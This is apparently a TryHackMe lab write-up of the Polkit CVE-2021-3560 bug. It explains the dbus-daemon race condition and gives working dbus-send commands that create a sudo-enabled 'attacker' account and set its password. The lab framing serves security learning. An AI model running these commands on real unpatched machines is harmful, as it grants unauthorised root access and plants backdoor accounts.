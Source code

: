 # TryHackMe: Polkit

author:: Nathan Acks  
date:: 2022-02-13

## Polkit (CVE-2021-3560)

### Background

CVE-2021-3560 impacted the following distros (at the time of its announcement):

* Red Hat Enterprise Linux 8
* Fedora 21 (or later)
* Debian Testing ("Bullseye")
* Ubuntu 20.04 LTS ("Focal Fossa")

Ubuntu fixed with with version `0.105-26ubuntu1.1` of the `policykit-1` package (the last vulnerable version was `0.105-26ubuntu1`).

This bug is a combination of a race condition and bad error handling. Basically:

* Manually request an action that requires superuser access via DBus.
* Kill `dbus-daemon` *after* Polkit has received the message but *before* it responds (there's the race).
* Polkit requests the user ID associated with the message, but since DBus has restarted it can't reference the original message ID and responds with an error.
* Polkit mishandles the error, substituting 0 for the ID of the requesting user (there's the botched error handling).
* Because the requesting user ID now appears to be root, Polkit just goes ahead and takes the action without issuing a challenge.

The race condition is obviously kind of tricky, so best to request something that can perhaps provide some persistence, like the creation of a new user account or changing the password on an existing account.

### Exploitation Process

(0) Construct a message similar to the following:

```bash
dbus-send \
	--system \
	--dest=org.freedesktop.Accounts \
	--type=method_call \
	--print-reply /org/freedesktop/Accounts \
	              org.freedesktop.Accounts.CreateUser \
	              string:attacker \
	              string:"Pentester Account" \
	              int32:1
```

The three parameters are:

* `string:attacker` - the name of the user to create.
* `string:"Pentester Account"` - the user "description" (GECOS field).
* `int32:1` - grant sudo access to the user.

(1) Begin by determining how long the message takes to execute on the target. This can be done with the `time` command.

```bash
time dbus-send \
	--system \
	--dest=org.freedesktop.Accounts \
	--type=method_call \
	--print-reply /org/freedesktop/Accounts \
	              org.freedesktop.Accounts.CreateUser \
	              string:attacker \
	              string:"Pentester Account" \
	              int32:1
```

(3) DBus needs to be killed approximately *halfway* through this execution period. We *cannot* wait for the application to return, so instead we background it.

```bash
dbus-send \
	--system \
	--dest=org.freedesktop.Accounts \
	--type=method_call \
	--print-reply /org/freedesktop/Accounts \
	              org.freedesktop.Accounts.CreateUser \
	              string:attacker \
	              string:"Pentester Account" \
	              int32:1 & \
sleep ${TIME}s; kill $!
```

Here `$TIME` is approximately half the time measured in the previous step.

(4) ID the created user.

```bash
id attacker
```

(5) Create a new password hash for the user.

```bash
openssl passwd -6 $PASSWORD
```

(6) Pull the same trick as in step 3, but with setting the created user's password.

```bash
dbus-send \
	--system \
	--dest=org.freedesktop.Accounts \
	--type=method_call \
	--print-reply /org/freedesktop/Accounts/User$UID \
	              org.freedesktop.Accounts.User.SetPassword \
	              string:'$PASSWORD_HASH' \
	              string:'Ask the pentester' & \
sleep ${TIME}s; kill $!
```

Here `$UID` is the user ID retrieved in step 4 (note that there's *no* space between `User` and the ID, so you'll be hitting an endpoint that looks something like `/org/freedesktop/Accounts/User1003`), `$PASSWORD_HASH` is the hash returned in step 5, and `$TIME` is the same timing determined from step 3. The second `string`  being passed in the user password hint.

(7) Log in as the new user (probably via `su`).
